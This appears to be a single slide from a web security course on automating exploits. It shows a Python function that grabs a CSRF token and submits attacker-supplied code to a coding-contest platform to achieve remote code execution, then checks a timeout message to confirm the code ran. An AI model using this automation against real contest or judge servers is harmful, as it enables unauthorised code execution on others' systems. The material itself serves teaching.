

Web (cont.)
Basic Web : Automating Web Exploits
Finally, we wait for 10 seconds for the contest to start and then submit our malicious Python code using our do_rce function.
def do_rce(target_url, s, contest_name, problem_name, lang_id=1):
    # When lang_id == 1, this indicates that it's Python.
    res = s.get(target_url + f"/competition/{contest_name}/challenges/{problem_name}",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            verify=False,
            proxies=PROXIES)
    token = get_csrf_token(res)
    res = s.post(target_url + f"/competition/{contest_name}/challenges/{problem_name}",
            files = {"_token": (None, token),
                    "language": (None, 1),
                    "code": ("test.py", OUR_RCE_CODE, "text/x-python")},
            verify=False, proxies = PROXIES)
    if("The solution was not accepted due to: Time out" in res.text):
        print("[+] Our code should have been executed!")
    else:
        print("[-] Our code may have not been executed :(")
        sys.exit(-1)
39